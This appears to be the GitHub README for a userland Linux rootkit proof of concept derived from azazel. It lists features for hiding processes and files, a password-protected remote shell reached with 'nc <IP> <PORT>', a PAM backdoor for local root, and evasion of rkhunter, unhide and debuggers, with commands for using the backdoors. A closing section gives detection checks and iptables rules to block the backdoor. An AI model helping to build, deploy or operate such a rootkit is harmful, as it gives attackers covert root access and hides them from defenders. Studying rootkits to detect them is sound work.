 # Linux Rootkit POC

This rootkit runs in userland and manipulates system calls and critical functions to hide its presence and provide backdoors for unauthorized access.

**Why**? For fun...

**Disclaimer**

The author is in no way responsible for any illegal use of this software. It is provided as an educational proof of concept (poc) only. He is also not responsible for any damages or mishaps that may occur while using this software. Use it at your own risk.

This poc is based on: [azazel](https://github.com/chokepoint/azazel)

## Features

- Hides processes, files, directories ~and network connections~
- Open remote terminal (plaintext) with password
- Add PAM backdoor for local root access
- Block some binaries to avoid analysis
- Hides from the rkhunter and unhide
- Avoids local sniffing
- Exit on debug

## Access remote backdoor

```sh
nc <IP> <PORT>
```
*enter the password!*

## Access local backdoor

```sh
sudo -u <USER> -s

export HIDE_THIS_SHELL=foobar // to be owner
```

## Update hash db 

```sh
make -f Makefile.rootkit update-hashdb
```

## Checks

- `sudo ss -antup`

- `sudo nmap -sV -p- -v <IP> --reason`

- `sudo tcpdump <PROTOCOL> port <PORT> -A`

- `sudo lsof -u <USER>`
- `sudo lsof -i :<PORT>`
- `sudo lsof -i <PROTOCOL>`
- `sudo lsof -p <PID>`

- `sudo unhide proc`
- `sudo unhide sys`

- `sudo rkhunter --update && sudo rkhunter --check`

- `sudo ps aux | grep shellserver`

- `sudo strace -p <PID>`

- `sudo cat /proc/net/tcp`
- `sudo cat /proc/net/tc6`

- `sudo w`

- `sudo last`

## Block remote backdoor

- `sudo iptables -A INPUT -p tcp --dport <PORT> -j DROP`

## Unblock remote backdoor

- `sudo iptables -L -v -n --line-numbers`
- `sudo iptables -D INPUT <NUM>`

